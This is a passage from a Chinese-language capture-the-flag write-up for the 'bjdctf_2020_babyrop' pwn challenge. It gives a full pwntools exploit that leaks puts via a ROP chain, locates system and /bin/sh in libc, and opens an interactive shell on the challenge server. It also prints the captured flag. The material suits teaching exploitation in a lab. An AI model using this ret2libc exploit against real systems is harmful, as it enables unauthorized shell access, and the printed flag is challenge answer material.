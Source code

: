 ```python
libc = LibcSearcher("puts", puts_addr)
libc_base = puts_addr - libc.dump("puts") # 基地址

system_addr = libc_base + libc.dump("system") # system() 地址
bin_sh_addr = libc_base + libc.dump("str_bin_sh") # /bin/sh 地址
```

OK，有了这些就能构造第二个 Payload

```python
payload2 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload2)
```

随后就能 `io.interactive()`，这个 `puts()` 可能会对应多个 Libc，最差的方法就是一个一个试过去（我自己是这么干的）

## 附总 Exp

```python
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 28549)
elf = ELF("./bjdctf_2020_babyrop")

main_addr = elf.symbols["main"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

pop_rdi_ret = 0x400733

payload1 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(puts_got, 64) + pack(puts_plt, 64) + pack(main_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload1)
puts_addr = unpack(io.recvline().strip().ljust(8, b"\0"), 64)

libc = LibcSearcher("puts", puts_addr)
libc_base = puts_addr - libc.dump("puts")

system_addr = libc_base + libc.dump("system")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")

payload2 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload2)

io.interactive()
```

最后得到的 Flag 是 `flag{b050bf66-64a5-4ceb-bc37-8cf0ec5812a3}`

## FAQ / ChatGPT

!!! question "关于 Payload 1"
    请你给我详细解释一下 Payload1 的构造过程，请生动形象一点，我是汇编语言的初学者，对寄存器的了解不够深刻
